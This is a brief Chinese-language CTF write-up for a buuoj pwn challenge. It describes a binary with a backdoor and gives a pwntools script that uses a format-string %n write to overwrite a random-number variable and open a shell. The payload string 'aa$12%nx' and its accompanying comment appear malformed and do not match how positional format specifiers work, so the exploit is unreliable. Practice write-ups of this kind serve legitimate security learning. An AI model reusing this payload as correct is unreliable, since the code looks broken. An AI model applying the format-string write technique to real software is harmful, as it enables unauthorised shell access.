 ```yaml
---
title: buuoj - 第五空间2019 决赛
date: 2023/9/19 12:00:00
tags:
    - noob
excerpt: 通过格式化字符串漏洞注入值到程序中的随机数变量，成功获取flag。
---
```


From buuoj.

## 文件分析

下载`pwn`，NX on, PIE on, RELRO partial  
ghidra分析为32位程序

## 解题思路

找到main函数后，发现输入username和passwd，并且存在后门：当passwd==randint时，打开sh，其中randint从文件读入为随机数  
由于读入的username和passwd长度等于其数组长度，无法考虑 **栈溢出** ，转而考虑对`atoi()`的利用

> Day 2

由于username在函数`printf`中，因此应当考虑格式化字符串漏洞将指定数值注入`randint`

## EXPLOIT

经过gdb调试可知，变量`username`所在地址比printf第一个参数的地址高0x28，即10个DWORD  
构造以下exp：

```python
from pwn import *
sh = process('pwn5')

# 静态变量randint的地址为0x0804c044
sh.sendline(b'aa$12%nx' + p32(0x0804c044))
# arg10: 'aa$1', arg11: '2%nx', arg12: 0x0804c044
#即将2（成功打印aa 2个字符）写入randint中

sh.sendline(b'2')
sh.interactive()
#输入cat flag取得flag

sh.close()
```
Done.
